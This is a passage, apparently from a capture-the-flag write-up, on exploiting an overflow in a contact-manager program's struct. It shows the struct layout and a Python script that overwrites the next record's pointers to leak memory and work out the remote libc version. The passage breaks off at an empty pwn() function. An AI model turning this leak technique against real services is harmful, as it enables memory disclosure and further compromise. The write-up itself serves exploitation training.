 So suppose the struct looked something like

```c
struct {
    char *phoneNumber;  // malloc'ed
    char *description;  // malloc'ed
    char name[64];
    int descriptionLength;
    int valid;
} info_t;
```

We can use this to leak information by overwriting the **next** struct's *phoneNumber* and *description*. We cannot use this to write anything, as the program will automatically call free() on the description. If it doesn't contain a valid heap address, the binary will crash. First, we'll abuse the leak to determine the remote libc version.

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
      buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def leak(x):
    print "leaking " + hex(x)
    global last_addr
    # edit contact 1 -> name to overflow pointers
    sendln('3')
    readtil('change? ')
    if last_addr == 0:
        sendln('BAR1')
    else:
        sendln('B'*63)
    
    readtil('>>> ')
    sendln('1')
    readtil('name:')
    #       name          length valid  char *description // char *phone==leak->malloc@got  
    sendln('B'*63+"\x00"+"BBBB"+p(0)+p(x)+p(x)+"BAR2")
    last_addr = x
    
    readtil('>>> ')
    
    sendln('4')
    data = readtil('>>> ')
    m = re.findall('Phone #: (.*)', data)
    return m[0]
    
def leak4(x):
    return struct.unpack('I', leak(x)[0:4])[0]
    
def pwn():
```